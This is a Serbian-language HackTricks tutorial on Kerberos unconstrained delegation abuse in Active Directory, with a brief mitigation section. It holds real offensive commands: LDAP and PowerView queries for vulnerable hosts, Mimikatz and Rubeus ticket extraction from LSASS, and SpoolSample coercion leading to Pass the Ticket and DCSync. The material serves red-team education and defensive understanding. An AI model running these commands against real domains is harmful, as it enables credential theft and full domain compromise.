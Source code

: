 # Unconstrained Delegation

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Neograničeno preusmeravanje

Ovo je funkcija koju **Administrator domena** može postaviti na bilo koji **računar** unutar domena. Zatim, svaki put kada se **korisnik prijavi** na računar, **kopija TGT-a** tog korisnika će biti **poslata unutar TGS-a** koji pruža DC **i sačuvana u memoriji u LSASS-u**. Dakle, ako imate administratorske privilegije na mašini, moći ćete **izvući tikete i preuzeti identitet korisnika** na bilo kojoj mašini.

Dakle, ako se administrator domena prijavi na računar sa aktiviranom funkcijom "Neograničeno preusmeravanje", i vi imate lokalne administratorske privilegije na toj mašini, moći ćete izvući tiket i preuzeti identitet Administratora domena bilo gde (privilegije domene).

Možete **pronaći objekte računara sa ovim atributom** proveravajući da li atribut [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) sadrži [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx). To možete uraditi sa LDAP filterom ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, što je ono što powerview radi:

<pre class="language-bash"><code class="lang-bash"># Lista računara sa neograničenim preusmeravanjem
## Powerview
Get-NetComputer -Unconstrained #DC-ovi uvek se pojavljuju ali nisu korisni za privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Izvoz tiketa sa Mimikatz-om
</strong>privilege::debug
sekurlsa::tickets /export #Preporučeni način
kerberos::list /export #Još jedan način

# Prati prijave i izvozi nove tikete
.\Rubeus.exe monitor /targetuser:&#x3C;korisničko_ime> /interval:10 #Proveri svakih 10s za nove TGT-ove
</code></pre>

Učitajte tiket Administratora (ili žrtvenog korisnika) u memoriju sa **Mimikatz**-om ili **Rubeus-om za** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Više informacija: [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Više informacija o neograničenom preusmeravanju na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Prisilna autentifikacija**

Ako napadač uspe da **kompromituje računar koji je dozvoljen za "Neograničeno preusmeravanje"**, on može **prevariti** server za **štampu** da se **automatski prijavi** na njega **čime se čuva TGT** u memoriji servera.\
Zatim, napadač može izvršiti napad **Pass the Ticket da bi preuzeo identitet** korisnika naloga računara za štampu.

Da biste naterali server za štampu da se prijavi na bilo koju mašinu, možete koristiti [**SpoolSample**](https://github.com/leechristensen/SpoolSample):

```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```

Ako je TGT sa kontrolera domena, možete izvesti napad [**DCSync**](acl-persistence-abuse/#dcsync) i dobiti sve hešove sa kontrolera domena.\
[**Više informacija o ovom napadu na ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Evo drugih načina da pokušate izazvati autentifikaciju:**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### Mitigacija

* Ograničite DA/Admin prijave na određene servise
* Postavite "Account is sensitive and cannot be delegated" za privilegovane naloge.

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Radite li u **cybersecurity kompaniji**? Želite li videti **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite pristupiti **najnovijoj verziji PEASS-a ili preuzeti HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
